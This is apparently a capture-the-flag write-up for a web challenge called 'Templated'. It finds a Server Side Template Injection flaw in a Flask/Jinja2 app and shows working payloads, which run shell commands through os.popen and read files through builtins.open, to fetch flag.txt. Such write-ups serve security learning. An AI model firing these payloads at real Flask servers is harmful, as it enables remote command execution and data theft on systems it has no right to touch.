





# Templated
## Web

We start the challenge on a simple page:



We learn that Jinja2 and Flask are used. Jinja2 is a template engine and could make the server vulnerable to an Server Side Template Injection.

We can verify this by using a simple payload:
```
{{7*7}}
```

I'll open Burp Suite for this.




And it works! We now know that the server is vulnerable to SSTI.

We can now try different payloads to obtain the flag.

I'll first need to know the flags's location. I'll use the following payload for this:

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen("ls").read()}}
```



Now we know the flag's location. Let'read it.

I'll modify the payload so that it reads the contents of the "flag.txt" file.

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen("cat+flag.txt").read()}}
```




This does not work. I'll try to modify the payload. 

```
{{self.__init__.__globals__.__builtins__.open("flag.txt").read()}}
```

I got rid of the OS module and just opened the file to read it's contents.



And this worked!

## We got the flag!